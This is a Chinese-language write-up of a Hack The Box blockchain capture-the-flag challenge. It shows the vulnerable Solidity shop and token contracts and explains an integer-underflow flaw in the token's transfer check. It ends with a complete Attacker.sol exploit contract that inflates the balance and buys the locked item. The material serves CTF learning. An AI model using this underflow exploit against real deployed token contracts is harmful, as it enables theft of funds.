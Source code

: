 ```yaml
---
title: HTB Blockchain Challenge - Token to Wonderland
date: {{ date }}
cover   : "/img/htb5.jpeg"
tags: Blockchain SmartContract Exploit
---
```


* 先看程式碼
* Setup.sol
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

import {SilverCoin} from "./SilverCoin.sol";
import {Shop} from "./Shop.sol";

contract Setup {
    Shop public immutable TARGET;

    constructor(address _player) payable {
        require(msg.value == 1 ether);
        SilverCoin silverCoin = new SilverCoin();
        silverCoin.transfer(_player, 100);
        TARGET = new Shop(address(silverCoin));
    }

    function isSolved(address _player) public view returns (bool) {
        (,, address ownerOfKey) = TARGET.viewItem(2);
        return ownerOfKey == _player;
    }
}

```
* Shop.sol

```
pragma solidity ^0.7.0;

import {SilverCoin} from "./SilverCoin.sol";

contract Shop {
    struct Item {
        string name;
        uint256 price;
        address owner;
    }

    Item[] public items;
    SilverCoin silverCoin;

    constructor(address _silverCoinAddress) {
        silverCoin = SilverCoin(_silverCoinAddress);
        items.push(Item("Diamond Necklace", 1_000_000, address(this)));
        items.push(Item("Ancient Stone", 70_000, address(this)));
        items.push(Item("Golden Key", 25_000_000, address(this)));
    }

    function buyItem(uint256 _index) public {
        Item memory _item = items[_index];
        require(_item.owner == address(this), "Item already sold");
        bool success = silverCoin.transferFrom(msg.sender, address(this), _item.price);
        require(success, "Payment failed!");
        items[_index].owner = msg.sender;
    }

    function viewItem(uint256 _index) public view returns (string memory, uint256, address) {
        return (items[_index].name, items[_index].price, items[_index].owner);
    }
}

```
* 很明顯，題目是要我們取得 第二個 item
* Setup 合約只給我們 100 SilverCoin
* 要想辦法湊錢買到 25_000_000 SilverCoin 的物品

### 思路
* 要想辦法撈錢
* 直到有辦法從 Shop/SilverCoin Contract 提出 25_000_000 
* 但是題目只有給 Shop, Setup 的地址
* 但因為 SilverCoin 是由 Setup 所呼叫生成，因此可以透過 Ethereum 合約地址生成的機制，來計算 SilverCoin 的地址
* `address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), creator_account, bytes1(0x01))))));`



### SilverCoin.sol
* Transfer
```

 function _transfer(address from, address to, uint256 amount) internal {
        require(from != address(0), "ERC20: transfer from the zero address");
        require(to != address(0), "ERC20: transfer to the zero address");

        uint256 fromBalance = _balances[from];
        require(fromBalance - amount >= 0, "ERC20: transfer amount exceeds balance");
        _balances[from] = fromBalance - amount;
        _balances[to] += amount;
        emit Transfer(from, to, amount);
    }
```

* 可以看到 `require(fromBalance - amount >= 0, "ERC20: transfer amount exceeds balance");` fromBalance 是 unsigned integer
* 因此 amount > fromBalance造成 underflow 會自動轉換為正整數 $2^{256} - 1$
* 因此我們變很容易的讓我們帳戶餘額暴增到可以購買 item 2


* Attacker.sol

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

import {SilverCoin} from "./SilverCoin.sol";
import {Shop} from "./Shop.sol";
import {Setup} from "./Setup.sol";
contract Attacker{
    SilverCoin public silvercoin;
    Shop shop;
    Setup setup;
    uint256 public maxx;
    constructor(Setup _setup){
        setup = _setup;
        silvercoin = SilverCoin(getContractAddress(address(_setup)));
        shop = setup.TARGET();
    }
    function getContractAddress(address creator_account) public pure returns (address) {
        return address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), creator_account, bytes1(0x01))))));
    }
    function attack(address player) public {
        silvercoin.transfer(address(this), 10000000000);
        silvercoin.increaseAllowance(address(shop), 25000100);
        shop.buyItem(2);
        setup.isSolved(address(this));

    }
    function getSilverCoin() public view returns(address){
        return address(silvercoin);
    }
}
```
